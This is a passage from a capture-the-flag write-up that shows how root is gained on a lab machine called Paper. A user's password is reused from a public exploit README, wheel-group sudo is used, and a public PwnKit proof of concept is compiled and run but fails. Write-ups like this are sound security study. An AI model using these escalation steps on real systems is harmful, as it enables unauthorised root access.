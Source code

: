 
It might not work every time, but running it repeatedly will eventually work.
I’ll change user to the secnigma user with the password secnigmaftw (from the
`README.md` on GitHub):

    
    
    [dwight@paper shm]$ su - secnigma
    Password: 
    [secnigma@paper ~]$
    

Now this user is in the `wheel` group:

    
    
    [secnigma@paper ~]$ id
    uid=1005(secnigma) gid=1005(secnigma) groups=1005(secnigma),10(wheel)
    

This group [allows members](https://unix.stackexchange.com/a/152445/369627) to
run `sudo`. I’ll need the password again, but it works:

    
    
    [secnigma@paper ~]$ sudo bash
    [sudo] password for secnigma: 
    [root@paper secnigma]#
    

And I can get the final flag:

    
    
    [root@paper ~]# cat root.txt
    1f6cdd61************************
    

## Beyond Root - Revisiting PwnKit

### Verify Failure

On noticing that `pkexec` was not SetUID, I gave up on PwnKit and moved to
other things (which is a reasonable thing to do). I wanted to come back and
play with that now that I have root access.

I’ll grab a POC pretty much at random (I’m going with [this
one](https://github.com/luijait/PwnKit-Exploit/blob/main/exploit.c) by
luijait). I’ll save a copy of `exploit.c` on Paper and then compile it:

    
    
    [dwight@paper shm]$ cc -Wall exploit.c -o exploit
    [dwight@paper shm]$ ls -l
    total 28
    -rwxrwxr-x 1 dwight dwight 21992 Jun  5 16:15 exploit
    -rw-rw-r-- 1 dwight dwight  1547 Jun  5 16:15 exploit.c
    

I run it, and it complains that “pkexec must be setuid root”:

    
    
    [dwight@paper shm]$ ./exploit 
    Current User before execute exploit
    hacker@victim$whoami: dwight
    Exploit written by @luijait (0x6c75696a616974)
    [+] Enjoy your root if exploit was completed successfully
    GLib: Cannot convert message: Could not open converter from “UTF-8” to “PWNKIT”
    pkexec must be setuid root
    